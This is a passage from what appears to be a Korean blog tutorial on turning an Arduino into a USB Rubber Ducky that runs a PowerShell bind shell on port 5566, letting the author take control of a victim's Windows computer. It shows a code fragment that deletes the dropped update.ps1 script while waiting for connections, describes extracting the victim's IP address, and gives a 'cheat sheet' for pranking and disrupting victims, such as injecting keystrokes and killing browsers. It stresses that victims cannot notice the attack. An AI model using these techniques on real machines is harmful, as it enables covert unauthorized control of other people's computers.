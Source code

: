 ```js
rm update.ps1;

$client = $listener.AcceptTcpClient();

# 함수 호출
windowsUpdate;
```

요약하면, 이 프로그램은 접속한 사람이 사용할 수 있는 포트 5566에서 bind shell을 구축하는 기능을 만들었습니다. 프로그램은 들어오는 연결을 기다리면서 update.ps1 파일을 삭제합니다. 이 시점에서 저는 bind shell 함수에 연결하여 피해자의 컴퓨터를 제어하기 시작합니다. PowerShell 스크립팅이 이렇게 간단한 것이죠?

<div class="content-ad"></div>

# 데모 타임

여기 데모에 대한 몇 가지 흥미로운 비디오가 있어요:

- 피해자에게 셸 코드 삽입하고 IP 주소 추출하기
- IP 주소 송부 및 피해자 컴퓨터 제어하기

<div class="content-ad"></div>

우리의 알지 못하는 희생자들에게 소식을 전하는 여러 가지 방법이 있습니다. 여러분이 할 수 있는 일들에 대한 치트 시트입니다:

```js
// 피해자의 컴퓨터로 키 입력 보내기
$wshell = New-Object -ComObject wscript.shell;
$wshell.sendKeys(" ");
$wshell.sendKeys("Hahaha");

// 파일에 쓰기
echo You have been hacked! > hacked.txt

// 메모장으로 파일 열기
notepad hacked.txt


// 브라우저 닫기
taskkill /IM firefox.exe /F
taskkill /IM chrome.exe /F

// Firefox를 위한 URL을 열기
cd "C:\Program Files\Mozilla Firefox"
firefox.exe https://www.google.com/

// Chrome을 위한 URL을 열기
cd "경로\Chrome"
chrome.exe https://www.google.com/
```

# 요약

이 글에서는 아두이노의 기본 기능과 EEPROM, 시리얼 통신, USB Rubber Ducky, 그리고 PowerShell 스크립팅을 소개했습니다.

해킹 프로세스가 백그라운드에서 실행되기 때문에 희생자들은 자신의 컴퓨터가 해킹당했는지 감지할 수 없을 것입니다. 컴퓨터가 해킹당하는 잠재적 위험을 줄이기 위해 — 내 친애하는 동료들도 포함하여 — 책상을 비울 때 컴퓨터를 잠그는 것을 항상 기억해 주세요.

<div class="content-ad"></div>

안녕하세요! 사이버 보안은 여러분부터 시작됩니다!

참고 자료:
